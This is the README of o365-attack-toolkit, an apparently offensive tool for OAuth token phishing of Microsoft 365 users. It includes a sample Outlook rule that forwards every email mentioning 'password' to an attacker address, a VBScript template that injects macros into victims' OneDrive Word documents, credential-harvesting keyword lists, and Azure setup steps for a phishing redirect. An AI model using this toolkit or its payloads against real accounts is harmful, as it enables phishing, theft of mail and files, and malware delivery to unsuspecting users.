 ## What is office 365-attack-toolkit

o365-attack-toolkit allows operators to perform an OAuth phishing attack and later on use the Microsoft Graph API to extract interesting information.

Some of the  implemented features are :
* Extraction of keyworded e-mails from Outlook.
* Creation of Outlook Rules.
* Extraction of files from OneDrive/Sharepoint.
* Injection of macros on Word documents.


## Architecture

![](/images/Architecture.png)


### The toolkit consists of several components
### Phishing endpoint
The phishing endpoint is responsible for serving the HTML file that performs the OAuth token phishing.
### Backend services
Afterward, the token will be used by the backend services to perform the defined attacks.
### Management interface
The management interface can be utilized to inspect the extracted information from the Microsoft Graph API.

## Features

### Outlook Keyworded Extraction
User emails can be extracted by this toolkit using keywords.
For every defined keyword in the configuration file, all the emails that match them will be downloaded and saved in the database. The operator can inspect the downloaded emails through the management interface.
### Onedrive/Sharepoint Keyworded Extraction
Microsoft Graph API can be used to access files across OneDrive, OneDrive for Business and SharePoint document libraries.
User files can be extracted by this toolkit using keywords.
For every defined keyword in the configuration file, all the documents that match them will be downloaded and saved locally. The operator can examine the documents using the management interface.

### Outlook Rules Creation
Microsoft Graph API supports the creation of Outlook rules. 
You can define different rules by putting the rule JSON files in the rules/ folder.
https://docs.microsoft.com/en-us/graph/api/mailfolder-post-messagerules?view=graph-rest-1.0&tabs=cs

Below is an example rule that when loaded, it will forward every email that contains password in the body to ```attacker@example.com```.
```json
{      
    "displayName": "Example Rule",      
    "sequence": 2,      
    "isEnabled": true,          
    "conditions": {
        "bodyContains": [
          "password"       
        ]
     },
     "actions": {
        "forwardTo": [
          {
             "emailAddress": {
                "name": "Attacker Email",
                "address": "attacker@example.com"
              }
           }
        ],
        "stopProcessingRules": false
     }    
}
```

### Word Document Macro Backdooring
Users documents hosted on OneDrive can be backdoored by injecting macros. If this feature is enabled, the last 15 documents accessed by the user will be downloaded and backdoored with the macro defined in the configuration file. After the backdoored file has been uploaded, the extension of the document will be changed to .doc in order for the macro to be supported on Word.
It should be noted that after backdooring the documents, they can not be edited online which increases the chances of our payload execution.

This functionality can only be used on Windows because the insertion of macros is done using the Word COM object.
A VBS file is built by the template below and executed so don't panic if you see ``wscript.exe`` running.

```vbscript
	Dim wdApp
	Set wdApp = CreateObject("Word.Application")
	wdApp.Documents.Open("{DOCUMENT}")
	wdApp.Documents(1).VBProject.VBComponents("ThisDocument").CodeModule.AddFromFile "{MACRO}"
	wdApp.Documents(1).SaveAs2 "{OUTPUT}", 0
	wdApp.Quit
```

## How to set up

### Compile

```
cd %GOPATH%
git clone https://github.com/0x09AL/o365-attack-toolkit
cd o365-attack-toolkit
dep ensure
go build
```

### Configuration

An example configuration as below :
```
[server]
host = 127.0.0.1 ; The ip address for the external listener.
externalport = 30662 ; Port for the external listener
certificate = server.crt ; Certificate for the external listener
key = server.key ; Key for the external listener
internalport = 8080 ; Port for the internal listener.

; Keywords used for extracting emails and files of a user.
[keywords]
outlook = pass,vpn,creds,credentials
onedrive = password,.config,.xml,db,database,mbd 

[backdoor]
enabled = true ; Enable/Disable this feature
macro = "C:\\Test.bas" ; The location of the macro file to use for backdooring documents
```

### Deployment
Before start using this toolkit you need to create an Application on the Azure Portal.
Go to Azure Active Directory -> App Registrations -> Register an application.

![](/images/registerapp.png)

After creating the application, copy the Application ID and change it on ```static/index.html```.

The URL(external listener) that will be used for phishing should be added as a Redirect URL.
To add a redirect url, go the application and click Add a Redirect URL.

![](/images/redirecturl.png)

The Redirect URL should be the URL that will be used to host the phishing endpoint, in this case ```https://myphishingurl.com/```

![](/images/url.png)

Make sure to check both the boxes as shown below :

![](/images/implicitgrant.png)

It should be noted that you can run this tool on any Operating Systems that Go supports, but the Macro Backdooring Functionality will only work on Windows.

The look of the phishing page can be changed on ```static/index.html```.

##  Security Considerations

Apart from all the features this tool has, it also opens some attack surface on the host running the tool.
Firstly, the Macro Backdooring Functionality will open the word files, and if you are running an unpatched version 
of Office, bad things can happen. Additionally, the extraction of files can download malicious files which will be saved on your computer. 

The best approach would be isolating the  host properly and only allowing communication with the HTTPS redirector and Microsoft Graph API.


## Management Interface

The management interface allows the operator to browse the data that  has been extracted. 

#### Users view

![](/images/users.png)

#### View User Emails

![](/images/emails.png)


#### View Email

![](/images/email.png)

